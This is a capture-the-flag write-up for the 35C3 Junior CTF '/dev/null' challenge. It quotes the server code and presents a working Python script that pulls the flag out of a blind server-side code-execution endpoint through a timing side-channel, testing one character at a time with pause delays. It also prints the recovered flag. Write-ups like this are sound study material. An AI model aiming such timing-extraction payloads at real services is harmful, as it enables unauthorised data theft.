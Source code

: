 # 35C3 Junior CTF – /dev/null

* **Category:** Misc  
* **Points:** 116 (variable)

## Challenge

> We're not the first but definitely the latest to offer dev-null-as-a-
> service. Pretty sure we're also the first to offer Wee-piped-to-dev-null-as-
> a-service[WPtDNaaS]. (We don't pipe anything, but the users don't care).
> This service is more useful than most blockchains (old joke, we know).
> Anyway this novel endpoint takes input at /wee/dev/null and returns nothing.  
>  
> http://35.207.189.79/  
>  
> Difficulty Estimate: Hard  
>  
> ===============================================  
>  
> Good coders should learn one new language every year.  
>  
> InfoSec folks are even used to learn one new language for every new problem
> they face (YMMV).  
>  
> If you have not picked up a new challenge in 2018, you're in for a treat.  
>  
> We took the new and upcoming Wee programming language from paperbots.io. Big
> shout-out to Mario Zechner (@badlogicgames) at this point.  
>  
> Some cool Projects can be created in Wee, like: this, this and that.  
>  
> Since we already know Java, though, we ported the server (Server.java and
> Paperbots.java) to Python (WIP) and constantly add awesome functionality.
> Get the new open-sourced server at /pyserver/server.py.  
>  
> Anything unrelated to the new server is left unchanged from commit
> dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github
> (mirrored up to this commit here).  
>  
> We even added new features to this better server, like server-side Wee
> evaluation!  
>  
> To make server-side Wee the language of the future, we already implemented
> awesome runtime functions. To make sure our VM is 100% safe and secure,
> there are also assertion functions in server-side Wee that you don't have to
> be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods
can be discovered.

```Python  
def runwee(wee: string) -> string:  
   print("{}: running {}".format(request.remote_addr, wee))  
   result = check_output(  
       ["ts-node", '--cacheDirectory', os.path.join(WEE_PATH, "__cache__"),  
        os.path.join(WEE_PATH, WEETERPRETER), wee], shell=False, stderr=STDOUT, timeout=WEE_TIMEOUT,  
       cwd=WEE_PATH).decode("utf-8")  
   print("{}: result: {}".format(request.remote_addr, result))  
   return result

@app.route("/wee/dev/null", methods=["POST"])  
def dev_null():  
   json = request.get_json(force=True)  
   wee = json["code"]  
   wee = """  
   var DEV_NULL: string = '{}'  
   {}  
   """.format(DEV_NULL, wee)  
   _ = runwee(wee)  
   return "GONE"  
```

`DEV_NULL` variable contains the flag and is manipulated accessing to
`/wee/dev/null` endpoint via POST operation. The variable is put into a *Wee*
script, together with an input provided by the user via JSON, that is executed
server side.

Unfortunately the execution is completely "blind", because no output is
returned to the user, only a constant value (i.e. `GONE`).

Furthermore, the `runwee` method, which executes the passed *Wee* script,
contains a timeout (i.e. 5 secs, that you will discover after few analysis).

A creative way to exfiltrate data is via a *side-channel attack based on
timing*, using a check that allows to "guess" the complete string one char at
a time, i.e. something like *blind SQL injection* attacks.

Analyzing the documentation you could discover two useful methods:  
* `charAt`;  
* `pause`.

These could be used to craft a *Wee* script like the following.

```  
if charAt(DEV_NULL, position) == '?' then  
  pause(4500)  
end  
```

Where `position` is the char you are trying to guess and `?` is the char
candidate. If the char candidate is correct, the script will pause for 4.5
secs.

A Python script can be used to automatize the operation.

```Python  
import requests  
import time  
import json

url = "http://35.207.189.79/wee/dev/null"  
data_structure = """{{ "code": {} }}"""  
data_content = """if charAt(DEV_NULL, {}) == '{}' then  
  pause(4500)  
end"""  
chars =
list("_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM")  
response_time_target = 4.0

try:  
  
  f = 0  
  flag = ""  
  fast_answers = 0  
  while fast_answers < len(chars):

     best_char = " "  
     best_response_time = 0.0  
     fast_answers = 0

     for c in range(len(chars)):  
        print "[*] Flag char number '{}', char '{}'.".format(f, chars[c])  
        data_content_to_send = json.dumps(data_content.format(f, chars[c]))  
        data_to_send = data_structure.format(data_content_to_send)  
        print "[*] Payload: '{}'.".format(data_to_send)  
        start = time.time()  
        response = requests.post(url, data=data_to_send)  
        end = time.time()  
        print "[*] Response: '{}'.".format(response.text)  
  
        response_time = end - start  
        print "[*] Response time is '{}'.".format(response_time)  
        if response_time >= response_time_target and response_time > best_response_time:  
           best_response_time = response_time  
           best_char = chars[c]  
           print "[*] Found char '{}'.".format(best_char)  
           break  
        elif response_time < response_time_target:  
           fast_answers+=1

     f+=1  
     flag += str(best_char)  
     print "[*] >>> Flag: '{}'. <<<".format(flag)

except KeyboardInterrupt:  
  print "[-] Interrupted!"  
```

The flag is the following.

```  
35C3_TH3_SUN_IS_TH3_SAM3_YOU_RE_OLDER  
```

Original writeup (https://github.com/m3ssap0/CTF-
Writeups/blob/master/35C3%20Junior%20CTF/dev_null/README.md).